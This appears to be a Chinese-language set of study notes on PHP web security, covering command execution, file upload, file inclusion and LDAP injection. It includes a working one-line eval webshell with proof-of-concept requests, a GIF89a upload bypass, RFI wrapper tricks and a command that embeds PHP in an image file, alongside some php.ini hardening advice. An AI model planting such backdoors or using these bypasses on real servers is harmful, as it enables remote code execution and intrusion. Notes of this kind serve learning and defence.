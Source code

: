 ```yaml
---
title: "php"
date: 2016-01-25 14:15
---
```


## 一句话后门

```php
$cmd = $_POST['cmd'];                                                      
eval("$cmd;");

poc:
? cmd=echo phpinfo()  
? cmd=echo exec("ls -l")
```

## 执行系统命令（命令注入攻击）



* shell_exec()

> string shell_exec ( string $cmd )

命令执行的输出。 如果执行过程中发生错误或者进程不产生输出，则返回 NULL。

* system()

> string system ( string $command [, int &$return_var ］)

成功则返回命令输出的结果， 失败则返回 FALSE

* exec() 

> string exec( string $command [, array &$output [, int &$return_var ］)

返回命令执行结果的最后一行内容

* passthru

> void passthru ( string $command [, int &$return_var ］ )

直接将结果输出到游览器,不返回任何值

* popen()

* proc_open()

* `(反撇号)

```
echo `ls -l`;
```



** for security**

* php.ini

```
safe_mode = On      #safe mode
safe_mode_exec_dir = /usr/local/php/bin/    #limit path

disable_functions="eval,phpinfo"
```

* 使用escapeshellcmd()和escapeshellarg()函数阻止用户恶意在系统上执行命令

    + escapeshellcmd()针对的是执行的系统命令

    + escapeshellarg()针对的是执行系
    
## upload

** bypass **

* 文件头+GIF89a

## file inclusion

require找不到被包含的文件时会产生致命错误，并停止脚本运行。

include找不到被包含的文件时只会产生警告，脚本将继续运行。

include_once与include类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含。

require_once与require类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含


> “zlib://”和“ogg://”等方式绕过 远程文件包含(RFI)

## dangerous functions

* file_get_contents()

> string file_get_contents ( string $filename [, bool $use_include_path = false [, resource $context [, int $offset = -1 [, int $maxlen ]]]] )

支持本地文件，HTTP，FTP

禁用file_get_contents,修改php.ini

```
allow_url_fopen=Off
```

* curl

支持 FTP(S),HTTP(S),TELNET,FILE,DICT,LDAP,GOPHER

install: sudo apt-get install php5-curl. then restart apache


## LDAP注入

[乌云 LDAP注入与防御][5]

[5]: http://drops.wooyun.org/tips/967

## 备注

* 注入php 到图片等

```
echo '<?php phpinfo();?>' >> 1.jpg
```

文件名后缀改为**.php**，就会用php方式解析，执行phpinfo().
